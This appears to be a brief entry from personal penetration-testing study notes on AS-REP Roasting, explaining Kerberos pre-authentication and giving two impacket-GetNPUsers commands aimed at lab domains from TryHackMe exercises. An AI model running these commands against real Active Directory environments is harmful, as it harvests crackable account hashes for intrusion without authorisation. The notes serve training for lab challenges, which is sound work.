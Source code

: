 ## ASREP-Roasting

---

ASREPRoasting occurs when a user account has the privilege "Does not require pre-authentication" set.
This means that the account does not need to provide valid identification before requesting a 
Kerberos Ticket on the specified user account.


Utilizing impacket-GetNPUsers will give us the TGT of users with this privileges set.

```
impacket-GetNPUsers -dc-ip 10.10.18.74 "spookysec.local/svc-admin" -no-pass
/usr/share/doc/python3-impacket/examples/GetNPUsers.py thm.corp/ -no-pass -usersfile ../Exploiting/OSCP_Prep/THM/ActiveDirectory/Reset/users.txt
```


